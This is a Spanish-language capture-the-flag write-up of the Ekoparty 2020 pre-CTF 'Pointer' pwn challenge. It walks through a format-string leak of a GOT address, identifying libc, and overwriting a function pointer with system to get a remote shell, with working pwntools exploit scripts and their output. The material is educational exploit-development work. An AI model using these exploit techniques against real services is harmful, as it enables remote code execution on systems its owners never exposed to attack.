

# WriteUp reto Pointer (Pwn) – Ekoparty 2020 Pre-ctf
> Autor: [Octavio Gianatiempo](https://twitter.com/ogianatiempo)

Primero veamos que tipo de archivo es con `file`

```
Pointer: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32
```

Es un ejecutable de Linux de 64 bits dinámicamente linkeado.
Si lo ejecutamos nos saluda y espera un input que luego imprime.


Si lo desensamblamos podemos ver un par de cosas.
En primer lugar reserva espacio en el stack para un buffer de 0x40 bytes y para cuatro variables de 8 bytes cada una.



Un poco más abajo podemos ver que usa esas variables para guardar punteros a las funciones en la PLT y que usa esos punteros para llamarlas. Por ejemplo, acá se ve como llama a `printf` para imprimir "Welcome bro" copiando el puntero a `rax` y luego ejecutando `call rax`.


Es así como nos pide el input pasando la dirección del buffer a `gets` y vemos que después usa el mismo puntero como único argumento de `printf`. Por lo tanto podemos hacer un ataque de format string. Pueden ver más sobre esto [acá](https://fundacion-sadosky.github.io/guia-escritura-exploits/format-string/5-format-string.html), [acá](http://jbremer.org/format-string-vulnerabilities/) o [acá](https://www.youtube.com/watch?v=t1LH9D5cuK4).


Hagamos un script para poder realizar el ataque e imprmir la dirección de `gets`. Esta dirección nos va a servir para calcular las posiciones de otras funciones de `libc` que vamos a usar para tomar control remoto. Para esto usamos una libraria de Python que se llama `pwntools`.

```Python
from pwn import *

context.log_level = 'debug'

gets_got = 0x601040

payload = "%7$s    "
payload += p64(gets_got)

p = remote("52.202.106.196", 61338)
p.recvline()
p.sendline(payload)
p.recvall()
```

Vemos que el payload esta compuesto por dos partes. Primero el format string que va imprimir el 7mo argumento como si fuera un puntero a string seguido de un poco de espacio. Segundo una dirección. Como es un ejecutable de 64 bits, `printf` toma los primeros argumentos por registros pero luego empieza a tomar los sucesivos argumentos del stack. Como nuestro buffer está en el stack podemos lograr, jugando con el format string y su largo, que el mismo buffer sea tomado como un argumento. En este caso particular estamos haciendo que tome como argumento la entrada correspondiente a gets en la _Global offset table_ (GOT). Ese séptimo argumento es `0x601040` lo que podemos verificar cambiando `$s` por `$p` para que imprima el argumento como un puntero. Como resultado de todo esto `printf` va a escribir en la terminal el contenido de la entrada de `gets` en la GOT, es decir su dirección en la memoria.

Como las direcciones de memoria no siempre resultan en caracteres imprimibles, activamos el modo debug de `pwntools` para que nos muestre un hexdump de todo lo que envía y recibe. Este es el resultado de ejecutar el script.

```
[+] Opening connection to 52.202.106.196 on port 61338: Done
[DEBUG] Received 0xc bytes:
    'Welcome Bro\n'
[DEBUG] Sent 0x11 bytes:
    00000000  25 37 24 73  20 20 20 20  40 10 60 00  00 00 00 00  │%7$s│    │@·`·│····│
    00000010  0a                                                  │·│
    00000011
[+] Receiving all data: Done (13B)
[DEBUG] Received 0xd bytes:
    00000000  80 bd a7 f7  ff 7f 20 20  20 20 40 10  60           │····│··  │  @·│`│
    0000000d
[*] Closed connection to 52.202.106.196 port 61338
```

Podemos ver que la dirección de `gets` está en los primeros 6 bytes recibidos en formato _little endian_ y es `0x7ffff7a7db80`.

Si ejecutamos el script de nuevo vemos que la dirección no cambia. Esto va a facilitar las cosas porque el espacio de memoria no se está aleatorizando o el programa no se está cargando en memoria de cero cada vez (por ejemplo el servidor podría estar forkeando el proceso nuevo recibiendo una copia del espacio de memoria del proceso padre). Si no fuera así tendríamos que ingeniárnoslas para leakear esa dirección y además que el programa siga ejecutando. Una opción posible es usar el mismo format string para que, además de leakear la dirección, pise la dirección de otra función en la GOT, por ejemplo `exit` (ver formato %n). Si pisáramos esta dirección con la dirección del `main` podemos hacer que el programa se ejecute una y otra vez permitiendo en una ejecución de `main` leakear y en otra explotar el binario sin que el mismo se cierre y se vuelva a aleatorizar el espacio de memoria cambiando las direcciones que ahora conocemos.

Pero bueno, por suerte no hace falta hacer todo esto (aunque es un buen ejercicio) así que aprovechemos esa dirección de `gets` que conocemos para averiguar la dirección de la función que nos gustaría ejecutar. Vamos a ejecutar `system("/bin/sh")` para poder tener una terminal. 

Para eso podemos usar [esta](https://libc.blukat.me/) web o clonarnos [este](https://github.com/niklasb/libc-database) repo.

En la web ingresamos el nombre de la función cuya dirección conocemos y los ultimos 12 bits de su dirección. Esto sirve para tratar de identificar que versión de `libc` está corriendo en el servidor y así poder calcular la dirección de la función `system`. Ingresamos sólo los úlitmos 12 porque cuando se aleatoriza el espacio de memoria en general se hace a nivel de página y entonces estos bits se mantienen constantes.


Obtenemos dos versiones de `libc` posibles. En este caso funcionó la primera. Vemos que system se encuetnra en la posición  `0x45390` respecto del inicio de `libc` y `gets` en la posición `0x6ed80`. 


Con estos datos ya podemos explotar el binario usando el siguiente script.

```Python
from pwn import *

# context.update(arch='ia64', os='linux')
context.log_level = 'debug'

# Calculamos las direcciones
gets_libc = 0x7ffff7a7bd80

offset_gets = 0x06ed80
offset_system = 0x045390

system_libc = offset_system + (gets_libc-offset_gets)

payload2  = "/bin/sh\00"  # welcome bro pointer
payload2 += "A" * (0x40 - len(payload2)) # padding
payload2 += "B" * 0x8       # pisa fflush
payload2 += "C" * 0x8       # pisa exit
payload2 += "D" * 0x8       # pisa gets
payload2 += p64(system_libc)# pisa printf

p = remote("52.202.106.196", 61338)
p.recvline()
p.sendline(payload2)
p.interactive()
```
Lo que hacemos es calcular la posición en memoria de la función `system` conociendo la posición en memoria de `gets` y los offsets de ambas respecto del inicio de `libc` (`gets_libc - offset_gets` equivale al inicio de `libc` en memoria). Luego aprovechamos que el programa ya hace un llamado a `printf` luego de `gets` de la siguiente forma.


Podemos ver que al llamar a `printf` el valor de `rdi`, que contiene el primer argumento, apunta a nuestro buffer. Basta entonces con escribir en nuestro buffer el binario que queremos ejecutar mediante la llamada a `system` y luego pisar el puntero a `printf` con el puntero a `system` en `libc` que acabamos de calcular. Al ejecutar este script obtendremos una shell remota y podemos imprimir el valor de la flag.

```
[+] Opening connection to 52.202.106.196 on port 61338: Done
[DEBUG] Received 0xc bytes:
    'Welcome Bro\n'
[DEBUG] Sent 0x61 bytes:
    00000000  2f 62 69 6e  2f 73 68 00  41 41 41 41  41 41 41 41  │/bin│/sh·│AAAA│AAAA│
    00000010  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  42 42 42 42  42 42 42 42  43 43 43 43  43 43 43 43  │BBBB│BBBB│CCCC│CCCC│
    00000050  44 44 44 44  44 44 44 44  90 23 a5 f7  ff 7f 00 00  │DDDD│DDDD│·#··│····│
    00000060  0a                                                  │·│
    00000061
[*] Switching to interactive mode
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    'cat flag.txt\n'
[DEBUG] Received 0x1e bytes:
    'EKO{AreYouReadyFor#Pwndemic?}\n'
EKO{AreYouReadyFor#Pwndemic?}
```
